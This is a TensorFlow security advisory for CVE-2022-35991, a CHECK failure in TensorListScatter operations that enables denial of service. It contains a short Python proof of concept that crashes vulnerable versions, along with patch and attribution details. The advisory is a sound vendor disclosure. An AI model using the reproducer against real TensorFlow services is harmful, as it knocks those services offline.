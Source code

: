 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2022-129.md
## TFSA-2022-129: `CHECK` fail in `TensorListScatter` and `TensorListScatterV2`

### CVE Number
CVE-2022-35991

### Impact
When `TensorListScatter` and `TensorListScatterV2` receive an `element_shape` of a rank greater than one, they give a `CHECK` fail that can trigger a denial of service attack.
```python
import tensorflow as tf
arg_0=tf.random.uniform(shape=(2, 2, 2), dtype=tf.float16, maxval=None)
arg_1=tf.random.uniform(shape=(2, 2, 2), dtype=tf.int32, maxval=65536)
arg_2=tf.random.uniform(shape=(2, 2, 2), dtype=tf.int32, maxval=65536)
arg_3=''
tf.raw_ops.TensorListScatter(tensor=arg_0, indices=arg_1, 
element_shape=arg_2, name=arg_3)
```

### Patches
We have patched the issue in GitHub commit [bb03fdf4aae944ab2e4b35c7daa051068a8b7f61](https://github.com/tensorflow/tensorflow/commit/bb03fdf4aae944ab2e4b35c7daa051068a8b7f61).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by 刘力源, Information System & Security and Countermeasures Experiments Center, Beijing Institute of Technology.
